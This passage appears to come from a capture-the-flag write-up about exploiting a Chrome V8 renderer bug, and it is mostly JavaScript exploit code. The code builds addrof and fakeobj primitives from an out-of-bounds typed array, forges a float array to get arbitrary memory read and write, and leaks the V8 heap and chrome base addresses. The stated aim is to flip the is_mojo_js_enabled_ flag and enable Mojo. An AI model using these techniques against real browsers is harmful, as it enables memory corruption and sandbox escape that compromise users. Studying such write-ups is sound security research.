 Because we allocate a Javascript `Array` after `TypedArray`, we can also modify its element as `Integer` from `uint32`. We use it to create a primitive function `addrof` by placing the object in `oob_access_array` and get its address from `uint32` at index 0x15. Another primitive function `fakeobj` is done by placing the arbitrary address at index 0x15 of `uint32` and get fake object from `oob_access_array`.

```javascript
function addrof(in_obj) {
    oob_access_array[0] = in_obj;
    return uint32[0x15];
}
function fakeobj(addr) {
    uint32[0x15] = addr;
    return oob_access_array[0];
}

```

We also leak `float_array_map` from `uint32` at index 62 and V8 heap base address from `uint32` at index 12. With `float_array_map` we can create a fake float array for arbitrary address read/write. With V8 heap base, we can read some useful content using arbitrary read/write on V8 heap.

```javascript
var float_array_map = uint32[62];
if (float_array_map == 0x3ff19999)
    float_array_map = uint32[63];

var arr2 = [itof(BigInt(float_array_map)), itof(0n), itof(8n), itof(1n), itof(0x1234n), 0, 0].slice();
var fake = fakeobj(addrof(arr2) - 0x38);
var v8_heap = BigInt(uint32[12]) << 32n;

function arbread(addr) {
    arr2[5] = itof(addr);
    return ftoi(fake[0]);
}

function arbwrite(addr, val) {
    arr2[5] = itof(addr);
    fake[0] = itof(val);
}
```

Now it is time to do some useful thing from those primitive functions. In renderer exploit, our goal is to modify a flag value so we can use Mojo in Javascript. Studying from the previous public write-ups about chrome exploit, the easiest way is to modify the the global variable `blink::RuntimeEnabledFeaturesBase::is_mojo_js_enabled_`. First we need to leak chrome base address. We use `window` object to leak it.

```javascript
var leak = BigInt(addrof(window)) + 0x10n + v8_heap - 1n;
var chrome_base = arbread(leak) - 0xc1ce730n;
```

But where is `is_mojo_js_enabled` ? Fortunately  the challenge chromium binary has symbol, we can use the following command to find out the offset of global variable `is_mojo_js_enabled_`.
